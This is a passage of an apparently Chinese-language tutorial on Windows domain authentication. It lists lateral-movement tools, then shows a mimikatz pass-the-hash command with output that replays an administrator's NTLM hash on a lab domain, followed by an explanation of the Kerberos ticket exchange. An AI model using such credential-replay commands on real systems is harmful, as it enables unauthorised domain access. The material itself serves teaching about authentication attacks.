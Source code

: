 - Metasploit ( *exploit/windows/smb/psexec, tools/exploit/psexec.rb* )
- Psexec.exe
- mimikatz

```
mimikatz # sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
user    : Administrateur
domain  : chocolate.local
program : cmd.exe
NTLM    : cc36cf7a8514893efccd332446158b1a
  |  PID  712
  |  TID  300
  |  LUID 0 ; 362544 (00000000:00058830)
  \_ msv1_0   - data copy @ 000F8AF4 : OK !
  \_ kerberos - data copy @ 000E23B8
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ des_cbc_md5       -> null
   \_ des_cbc_crc       -> null
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace -> null
```





## 0x03 Kerberos 协议简介

Kerberos 协议认证的原理和上述提到的 NTLM 有很多类似的地方，下面简单介绍一下Kerberos 的认证流程。

![/styles/images/kerberos/kerberos_01.png]({{ '/styles/images/kerberos/kerberos_01.png' | prepend: site.baseurl }}) 



1. （**AS-REQ**）Client 发送用户名 Tom 到 KDC （Key Distribution Center）以向 AS （Authentication Service）请求 TGT 票据等信息。

2. （**AS-REP**）收到请求后，AS 生成随机字符串 Session Key，使用 Tom 的 NTLM Hash 对 Session Key 加密得到密文 A，再使用账号 krbtgt 的 NTLM Hash 对 Session Key 、 Client Info和 timestamp 加密得到 TGT，A 和 TGT 一起返回给 Client。

3. （**TGS-REQ**） Client 收到请求后，使用自身的 NTLM Hash 解密 A 就能得到 Session Key，然后使用 Session Key 对 Client Info 和 timestamp 加密得到 B，加上 TGT ，发送给 KDC中的 TGS。

4. （**TGS-REP**）TGS  收到请求后，使用 **krbtgt** 的 NTLM Hash 解密 TGT，得到 Session Key 和 timestamp 以及 Client Info，同时，使用 TGT 解密出的 Session Key 解密密文B，得到Client Info 和 timestamp。 比对这两部分解密得到的内容以验证是否通过。通过后，生成一个新的随机数 Session Key2，并用它加密 client info 和 timestamp 得到密文 enc-part；使用服务器计算机的NTLM Hash 对 session key2 和 client info 以及 timestamp 加密得到最终的 Ticket，返回给 Client。

5. （**AP-REQ**）Client 使用 Ticket 和 enc-part 直接请求某服务。

6. （**AP-REP**） 对Ticket 和 enc-part 解密后进行验证授权。

**注意**：
